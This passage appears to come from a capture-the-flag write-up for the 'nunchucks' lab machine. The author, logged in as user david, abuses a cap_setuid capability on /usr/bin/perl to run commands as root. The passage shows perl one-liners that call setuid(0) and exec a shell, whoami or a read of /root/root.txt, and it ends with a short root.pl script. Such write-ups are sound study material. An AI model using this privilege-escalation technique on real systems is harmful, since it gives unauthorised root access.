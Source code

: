 ### We are now in as `david@nunchucks`!

The **user flag** is at `/home/david/user.txt`.

Since **SSH** is running on the box, I'll stabilize my shell by [generating SSH keys](../Tips%26Tricks/Generating%20SSH%20Keys.md). (You can skip this part)
```console
[REDACTED]

Last login: Fri Oct 22 19:09:52 2021 from 10.10.14.6
david@nunchucks:~$
```

After **linpeas**, it showed me the following privilege escalation vector:
```console
/usr/bin/perl = cap_setuid+ep
```

It means that the binary `/usr/bin/perl` is able to manipulate its own process UID. We can abuse this by executing a perl script that changes the process uid to 0, then opening a root shell. Referenced from [here](https://gtfobins.github.io/gtfobins/perl/#capabilities).

```console
david@nunchucks:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'

david@nunchucks:~$
```

Somehow it did not open up a root shell. But the command is being executed by root. I verified it using:
```console
david@nunchucks:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'

root
```

So I tried to read the contents of the **root flag** directly which achieving root shell.
```console
david@nunchucks:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cat /root/root.txt";'

cat: /root/root.txt: Permission denied
```

That's werid...

Let's write a `perl` script, specifying the full path of the binary `/usr/bin/perl` that we are using to get the root shell.
```console
david@nunchucks:~$ vim root.pl
```
In `root.pl`:
```perl
#!/usr/bin/perl

use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";
```
